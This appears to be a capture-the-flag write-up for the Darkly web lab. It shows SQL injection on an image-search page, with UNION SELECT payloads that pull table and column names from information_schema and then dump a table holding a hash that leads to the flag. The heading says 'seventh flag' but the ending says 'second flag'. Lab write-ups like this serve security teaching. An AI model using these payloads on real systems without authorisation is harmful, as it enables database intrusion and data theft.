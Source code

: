 <h1>Seventh flag of Darkly</h1>

<ol>

<li>Navigate to the page http://192.168.1.100/index.php?page=searchimg</li>
<li>Now that we are on the page here we can try for simple sql Injection by passing 1 , 1=1 or even passing 1 or 1 = 1 In doing this we see that data is being returned from the database so we try to get data from the tables in the database using SQL injection</li>
<li>Same as the previous flag we are going to try and get table name of the table here since we can see results of the sql query inside the application response</li>
''
-1  UNION SELECT  table_name, 1 FROM information_schema.tables where table_schema = database() 
''
here we got back 'list_images'

<li> There after we are going to get the columns again too</li>
''
-1  UNION SELECT  column_name, 1 FROM information_schema.columns where table_schema = database() 
''
in our results we found this:

ID: -1 union select null, concat (id, url, title, comment) from list_images 
Title: 5borntosec.ddns.net/images.pngHack me ?If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
Url : 

<li>When we decode the given data we get the following string --> albatroz </li>
<li>sha 256 calculator result after passing in albatroz -->   f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188 </li>
</ol>

Well done you have found the second flag!

